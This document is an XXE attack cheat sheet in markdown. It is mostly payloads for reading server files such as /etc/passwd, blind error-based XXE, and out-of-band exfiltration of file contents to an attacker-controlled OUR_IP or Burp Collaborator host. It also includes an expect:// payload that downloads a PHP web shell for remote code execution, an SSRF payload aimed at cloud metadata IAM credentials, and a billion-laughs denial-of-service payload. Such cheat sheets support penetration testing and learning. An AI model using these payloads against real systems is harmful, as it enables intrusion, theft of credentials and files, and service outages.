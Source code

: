 
# XXE Attacks 


## Reading Sensitive Files

### using DTD
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

### using Xinclude
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.


## Read file contains some of XML's special characters

#### PHP wrapper 

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

#### CDATA Mehtod


```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
- this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.
- To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined,as follows:


- payload 
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<email>&joined;</email> 
```
- xxx.dtd
```
<!ENTITY joined "%begin;%file;%end;">
```


## Blind XXE 

#### Error Based XXE



##### using external dtd file 
- payload 
 ```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- xxx.dtd
```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
#### Exploiting blind XXE (error based) by repurposing a local DTD [source](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

 invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data. 
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing: 
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```


#### Out-of-band Data Exfiltration

- payload 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- xxe.dtd
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
OR 

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

## RCE 

###  look for `ssh` keys

### PHP Wrappers
#### php://filter 
- https://github.com/synacktiv/php_filter_chain_generator
#### php://expect 
- expect://id  (output may break xml syntax  , we may have not access to the output)  

-  payload   (best practice )
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
- shell.php file 
```php
<?php system($_REQUEST["cmd"]);?>
```



## SSRF 
 - get API metadata 
```
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> 
]>
```



## DOS Attack
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

